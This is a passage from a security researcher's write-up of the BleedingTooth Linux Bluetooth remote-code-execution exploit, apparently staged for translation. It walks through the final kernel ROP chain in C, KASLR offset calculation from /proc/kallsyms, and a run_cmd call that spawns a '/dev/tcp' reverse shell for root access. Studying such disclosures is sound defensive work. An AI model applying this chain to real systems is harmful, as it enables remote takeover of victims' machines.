 ```c
  build_krop_chain((uint64_t *)&data[0x360], l2cap_chan_addr + 0x3c0);
  strncpy(&data[0x3c0], remote_command, 0x40);
}
```
With that, we have finally achieved RCE. To debug our stack pivot and see if we were successful, we can set *(uint64_t *)&data[0x360]=0x41414141 and observe a controlled panic.
##### Kernel ROP Chain Execution
Now, we can either write a big ROP chain that retrieves and executes a C payload, or a smaller one that allows us to run an arbitrary command. For the sake of the Proof-Of-Concept, we are already satisfied with a reverse shell, thus executing a command is enough for us. Inspired by the ROP chain described in the write-up CVE-2019-18683: Exploiting a Linux kernel vulnerability in the V4L2 subsystem, we will build a chain that calls run_cmd() with /bin/bash -c /bin/bash</dev/tcp/IP/PORT to spawn a reverse shell, and finally calls do_task_dead() to stop the kernel thread. After that, Bluetooth will no longer work. In a more sophisticated exploit, we would resume the execution.

To determine offsets for both methods, we can simply inspect the live symbols on the victim’s machine:
```shell
$ sudo cat /proc/kallsyms | grep "run_cmd\|do_task_dead"
ffffffffab2ce470 t run_cmd
ffffffffab2dc260 T do_task_dead
```
Here, the KASLR slide is 0x2a200000 which can be calculated by grep’ing for the _text symbol and subtracting 0xffffffff81000000:
```shell
$ sudo cat /proc/kallsyms | grep "T _text"
ffffffffab200000 T _text
```
Subtracting the slide from the two addresses from before yields:
```c
#define RUN_CMD 0xffffffff810ce470
#define DO_TASK_DEAD 0xffffffff810dc260
```
Finally, we can find gadgets for pop rax ; ret, pop rdi ; ret and jmp rax with ROPgadget and then we can construct the kernel ROP chain according to this example:
```c
static void build_krop_chain(uint64_t *rop, uint64_t cmd_addr) {
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + RUN_CMD;
  *rop++ = kaslr_offset + POP_RDI_RET;
  *rop++ = cmd_addr;
  *rop++ = kaslr_offset + JMP_RAX;
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + DO_TASK_DEAD;
  *rop++ = kaslr_offset + JMP_RAX;
}
```
This ROP chain should be placed at offset 0x40 within the fake struct bpf_prog object, and cmd_addr should point to the bash command planted in kernel memory. With everything at the right place, we can finally retrieve a root shell from the victim.
### Proof-Of-Concept
The Proof-Of-Concept is available at https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth.


[#]: collector: (选题人 Licae)
[#]: translator: ( )
[#]: reviewer: ( )
[#]: publisher: ( )
[#]: subject: (BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution)
[#]: via: (https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html#bypassing-badkarma)
[#]: author: (Andy Nguyen https://google.github.io/security-research)
[#]: url: ( )
[a]: 作者链接 https://google.github.io/security-research
[b]: 选题链接 URL
[1]: 图片链接地址
[2]: 文内链接地址